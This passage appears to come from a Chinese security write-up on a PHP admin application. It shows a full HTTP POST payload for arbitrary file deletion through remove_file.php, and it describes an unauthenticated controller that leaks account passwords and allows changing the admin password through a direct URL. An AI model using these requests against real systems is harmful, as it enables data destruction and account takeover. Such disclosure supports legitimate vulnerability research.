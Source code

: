 }
?>
```  
  
**Payload:**  
```
POST /static/admin/upload_file/php/remove_file.php HTTP/1.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: zh-CN,zh;q=0.9,ru;q=0.8,en;q=0.7
Cache-Control: max-age=0
Connection: keep-alive
Content-Length: 12
Content-Type: application/x-www-form-urlencoded
Cookie: BJYSESSION=oorquahq7r9csc3can1hpcjkj3; PHPSESSID=6kqil2pldpq19cq7dt590uc54h; KOD_SESSION_SSO=ni6912a1a0d53k4rb6r6hgrhof; KOD_SESSION_ID_1bcdf=d358i7lc74rt2mrush7aao808h
Host: 127.0.0.1:81
Origin: http://127.0.0.1:81
Referer: http://127.0.0.1:81/static/admin/upload_file/php/remove_file.php
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.0.0 Safari/537.36
sec-ch-ua: "Google Chrome";v="123", "Not:A-Brand";v="8", "Chromium";v="123"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
sec-fetch-user: ?1

file=aaa.txt
```  
## 0x03 前台未授权操纵+信息泄露漏洞  
  
**在 /application/admin/controller/xxxx.php 控制器中的xxxx方法直接GET获取page，然后查询数据表并直接将账号密码列出，并且未加鉴权函数.**  
  
**Payload:**  
```
请见文末
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/uicic8KPZnD5dCpMEuN5SbNVN3fRz2B9Iibg5z2Y0wwqqVIB5srCavFratAHicRR378pg4lMMbvfOv6TWjARuxxP7A/640?wx_fmt=png&from=appmsg "")  
  
**在 **** 方法中，可随意操纵任意账户，更改密码等操作**  
  
**直接访问 /index.php/admin/****/1 即可直接越权更改管理员密码**  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/uicic8KPZnD5dCpMEuN5SbNVN3fRz2B9Iib86U0RMVo02EWbcu4Vbt6hfViaxjrrsDKmU9iaibCtPg11VQwgOEtxibStg/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5dCpMEuN5SbNVN3fRz2B9IibPcxVdbujoCdpIrdrXYT3AedwXhibYWxfJGicF9rGRCg2a4HlOYtMCibpg/640?wx_fmt=other&from=appmsg "")  
  
**控制器不加任何鉴权，随便操纵用户，这套程序真抽象......**  
  
**在 upload_add 方法中，还有个文件上传，但是无回显，上传文件以微秒的md5来命名，所以实际利用价值比较低，这里就不多赘述了 .**  
```
public function upload_add(){
